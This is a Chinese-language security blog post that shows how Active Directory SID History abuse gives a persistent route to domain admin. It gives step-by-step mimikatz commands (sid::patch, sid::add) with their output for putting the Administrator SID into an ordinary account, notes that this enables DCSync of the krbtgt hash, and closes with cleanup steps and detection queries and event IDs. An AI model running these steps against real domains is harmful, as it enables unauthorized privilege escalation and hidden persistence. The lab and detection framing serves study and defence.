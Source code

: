 ```yaml
---
title: SID History
date: 2019-12-31 23:59:50 +0800
categories: [域安全, TA0003持久化]
tags: [SIDHistory, TA0003持久化]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

攻击者在获取Domain Admins权限后，可以通过SID Hisotry给普通账户提权，用于权限维持



**参考：**

[Sneaky Active Directory Persistence #14: SID History](https://adsecurity.org/?p=1772)



## 0x01 SID History

> [SID History](https://msdn.microsoft.com/en-us/library/ms679833(v=vs.85).aspx) is an attribute that supports [migration scenarios](https://technet.microsoft.com/en-us/library/cc779590(v=ws.10).aspx). Every user account has an associated [Security IDentifier (SID)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa379571(v=vs.85).aspx) which is used to track the security principal and the access the account has when connecting to resources. SID History enables access for another account to effectively be cloned to another. This is extremely useful to ensure users retain access when moved (migrated) from one domain to another. Since the user’s SID changes when the new account is created, the old SID needs to map to the new one. When a user in Domain A is migrated to Domain B, a new user account is created in DomainB and DomainA user’s SID is added to DomainB’s user account’s SID History attribute. This ensures that DomainB user can still access resources in DomainA.
>
> The interesting part of this is that SID History works for SIDs in the same domain as it does across domains in the same forest, which means that a regular user account in DomainA can contain DomainA SIDs and if the DomainA SIDs are for privileged accounts or groups, a regular user account can be granted Domain Admin rights without being a member of Domain Admins.
>
> 
>
> Note: A regular user in a domain can contain the Enterprise Admin SID in its SID History from another domain in the Active Directory forest, thus “elevating” access for the user account to effective Domain Admin in all domains in the forest. if you have a forest trust *without* SID Filtering enabled (also called Quarantine), it’s possible to inject a SID from another forest and it will be added to the user token when authenticated and used for access evaluations.

域内用户用SID作为自己的ID，SID History属性相当于表明此用户还有其他的ID，因此也就可以访问授权这些SID能访问的资源。SID History的设计是用于账户跨域迁移时，保留对原有域资源的访问。

修改SID History需要Domain Admins权限，攻击者在获取Domain Admins权限后，可以通过SID Hisotry给普通账户提权，用于权限维持。



## 0x02 利用

即使有Domain Admins权限，但SID History属性是受保护属性，不能直接修改

```
PS C:\Users\Administrator> Get-ADUser win10 -Properties memberof,sidhistory


DistinguishedName : CN=win10,CN=Users,DC=ring2,DC=com
Enabled           : True
GivenName         :
MemberOf          : {}
Name              : win10
ObjectClass       : user
ObjectGUID        : 9f39c0a4-a5c2-440a-a17f-748c1b32726d
SamAccountName    : win10
SID               : S-1-5-21-2475887593-94489213-2292866110-1103
SIDHistory        : {}
Surname           : win10
UserPrincipalName : win10@ring2.com



PS C:\Users\Administrator> Set-ADUser win10 -Replace @{sidhistory="S-1-5-21-2475887593-94489213-2292866110-500"}
Set-ADUser : Access is denied
At line:1 char:1
+ Set-ADUser win10 -Replace @{sidhistory="S-1-5-21-2475887593-94489213- ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (win10:ADUser) [Set-ADUser], UnauthorizedAccessException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:System.UnauthorizedAccessException,Microsoft.ActiveDirectory.Management
```



### mimikatz

由于SID Hisotory是受保护属性，因此需要先给NTDS服务(LSASS进程)打Patch

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sid::patch
Patch 1/2: "ntds" service patched
Patch 2/2: ERROR kull_m_patch_genericProcessOrServiceFromBuild ; kull_m_patch (0x00000057)
```



```
mimikatz # sid::add /sam:win10 /new:ring2\administrator

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10

  * Will try to add 'sIDHistory' this new SID:'S-1-5-21-2475887593-94489213-2292866110-500': OK!
  
------------------------------------------------------------------------------------------------------------------------
mimikatz # sid::add /new:S-1-5-21-2475887593-94489213-2292866110-500 /sid:S-1-5-21-2475887593-94489213-2292866110-1103

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10

  * Will try to add 'sIDHistory' this new SID:'S-1-5-21-2475887593-94489213-2292866110-500': OK!
```



```
mimikatz # sid::query /sam:win10

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10
  sIDHistory:
   [0] S-1-5-21-2475887593-94489213-2292866110-500 ( User -- RING2\Administrator )

mimikatz # sid::lookup /name:win10
Name  : win10
Type  : User
Domain: RING2
SID   : S-1-5-21-2475887593-94489213-2292866110-1103
```



添加SID History后，win10账户有权限做DCSync获取krbtgt账户Hash，不过我测试时需要重新登录win10账户才生效。

![SneakyPersistence-AddSIDHistory-BobaFett-Exploit-PS-Krbtgt](/assets/img/SneakyPersistence-AddSIDHistory-BobaFett-Exploit-PS-Krbtgt.png)



清理SID History

```
mimikatz # sid::clear /sam:win10

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10
  sIDHistory:
   [0] S-1-5-21-2475887593-94489213-2292866110-500 ( User -- RING2\Administrator )

  * Will try to clear 'sIDHistory': OK!
```



其实，做`sid::patch`后，已经可以通过`Set-ADUser`来修改SID History了，因此这种方式要重启NTDS服务才能彻底清理环境，重新置SID History为受保护属性。

![image-20201226121818155](/assets/img/image-20201226121818155.png)

```
Get-ADUser win10 -Properties sidhistory | foreach {Set-ADUser $_ -remove @{sidhistory=$_.sidhistory.value}};
```

![image-20201226123312325](/assets/img/image-20201226123312325.png)





## 0x03 检测

```
# Detect Same Domain SID History
Import-Module ActiveDirectory
[string]$DomainSID = ( (Get-ADDomain).DomainSID.Value )

Get-ADUser -Filter “SIDHistory -Like ‘*'” -Properties SIDHistory | `
Where { $_.SIDHistory -Like “$DomainSID-*” }
```

- 4765: SID History was added to an account.
- 4766: An attempt to add SID History to an account failed.